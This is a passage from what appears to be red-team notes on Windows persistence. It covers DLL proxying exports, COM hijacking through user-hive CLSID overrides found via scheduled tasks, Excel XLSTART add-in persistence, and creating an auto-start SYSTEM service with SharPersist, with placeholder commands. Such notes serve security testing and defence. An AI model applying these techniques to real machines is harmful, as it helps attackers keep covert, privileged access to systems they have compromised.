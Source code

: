 - Program might still crash if specific functions from the DLL are used that didn't show in the import table. Get all the exported functions:
```
dumpbin /exports <PATH TO ORIGINAL DLL>
```

- Create linker for every function! If there are functions without names use the ordinals with the following syntact
```
#pragma comment(linker,"/export:NONAME=winsplhlp.#100,@100,NONAME")
```

### COM Proxying/hijacking
- COM loads from the user registry and then from the system. So looking up a reg key it loads from the system hive and adding it in the user hive will make it load that reg key first.
- COM registery can be found in `<HIVE>\SOFTWARE\Classes\CLSID` Where `<HIVE>` is the `HKCR`, `HKCU` or `HKLM`

#### Check for COM to hijack
- Query scheduled tasks. Look for something as `<ComHandler>` instead if the `<Exec>` tags and `<LogonTrigger>` in `<Triggers>`
```
schtasks /query /xml > tasks.xml
```

- Query the HKCR to see which DLL and then the HKCU and HKLM to check where the reg key is set. If HKLM then its exploitable by adding a HKCU.
```
reg query "HKCR\CLSID\{<ID>}"
reg query "HKCR\CLSID\{<ID>}\Inprocserver32"

reg query "HKCU\SOFTWARE\Classes\CLSID\{<ID>}"
reg query "HKLM\SOFTWARE\Classes\CLSID\{<ID>}"
```

- Export key
```
reg export "HKLM\SOFTWARE\Classes\CLSID\{<ID>}" tsk-orig.reg /reg:64 /y
```

### Microsoft Office Trusted Locations
- Allow DLL or macros to execute despite the configured security settings (Ignored if macro's or add-ins have been blocked by GPO)
- Create a new Excel document with a module containing the persistence mechanism. Save it as "Excel Add-in" inside ```%APPDATA%\Microsoft\Excel\XLSTART``` and it will be launched every time the user opens MS Excel application.
- https://labs.f-secure.com/archive/add-in-opportunities-for-office-persistence/

## Elevated
- Persistence methods for high privileged persistence

### Service
- Create service running as SYSTEM, service is in a stopped state, but with the START_TYPE set to AUTO_START. 
```
.\SharPersist.exe -t service -c "<PATH TO EXE>" -n "<SERVICE NAME>" -m add
```
